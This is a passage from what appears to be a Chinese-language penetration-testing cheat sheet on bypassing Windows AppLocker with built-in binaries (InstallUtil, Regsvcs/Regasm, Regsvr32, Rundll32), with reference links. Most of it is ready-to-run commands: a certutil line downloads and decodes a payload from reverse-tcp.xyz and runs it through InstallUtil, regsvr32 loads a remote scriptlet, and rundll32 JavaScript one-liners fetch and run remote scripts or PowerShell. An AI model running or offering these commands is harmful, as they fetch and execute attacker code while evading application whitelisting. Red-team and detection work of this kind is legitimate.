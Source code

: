 ```powershell
certutil -urlcache -split -f http://reverse-tcp.xyz/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

Links:

- https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
- https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/InstallUtil.md

#### Regsvcs/Regasm

[*Regsvcs*.exe(.NET 服务安装工具)](http://www.baidu.com/link?url=LFHRhAw_0WiFLLLsGtUuU76QX8dVcoSTNemnWDG-M0aO1bzkPOxXN7R9hJf7H8Z4nU7Vs1szBPOVXixckoa7fK) 、 [*Regasm*.exe(程序集注册工具)](http://www.baidu.com/link?url=mXPdwra2bsMnRy5OfhVIkzJC9bLa7D_qoZFmIFG8oJZNX81nO7BWpgNNGDoks-MpfbmV2k2JIuwgfkejVnF2Sy6Q9DtnhdLoRszgvJhHefi)

```powershell
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll

x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll
```

Links：

- https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/RegSvcsRegAsmBypass.cs
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/RegsvcsRegasm.md

#### Regsvr32

执行本地脚本

```powershell
regsvr32.exe /s /u /i:file.sct scrobj.dll
```

加载远程脚本执行

```powershell
regsvr32.exe /s /u /i:http://reverse-tcp.xyz/file.sct scrobj.dll
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

Links：

- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md

#### Rundll32

rundll32就很熟悉了，主要用于在内存中运行dll文件，它们会在应用程序中被使用

```powershell
rundll32 AllTheThings.dll,EntryPoint
rundll32 javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://reverse-tcp.xyz/payload.sct");window.close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
